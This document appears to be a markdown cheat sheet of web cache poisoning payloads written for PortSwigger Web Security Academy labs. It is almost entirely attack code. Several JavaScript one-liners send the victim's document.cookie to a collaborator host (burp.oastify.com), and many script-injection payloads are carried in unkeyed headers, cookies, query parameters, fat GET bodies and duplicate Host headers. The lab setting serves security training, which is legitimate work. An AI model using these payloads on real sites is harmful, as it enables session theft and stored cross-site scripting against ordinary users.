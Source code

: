 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:

```
  go to the **exploit server** ->

  in **"file"**: /recources/js/tracking.js
  in **"body"**:
  document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

  or
  
  `fetch('http://burp.oastify.com?c=' + document.cookie, { mode: 'no-cors' });`
  
  or
  
  `location.href = 'http://burp.oastify.com?c=' + document.cookie;`
  
  or
  
```
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://burp.oastify.com?c=' + document.cookie, true);
  xhr.send();
```

![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:

``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``

## Web cache poisoning with an unkeyed cookie:

``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``

## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

```
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
```

## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.

``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``

## Web cache poisoning via an unkeyed query string

``
/?search=evil'/><script>alert(1)</script>
Origin:x
``

## Web cache poisoning via an unkeyed query parameter

``
GET /?utm_content=123'/><script>alert(1)</script>
``

## Parameter cloaking

``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``

## Web cache poisoning via a fat GET request

``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``

## URL normalization

``
/random"><script>alert(1)</script> 
``

or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim

## tracking.js + double Host:

```
GET /?cb=123 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

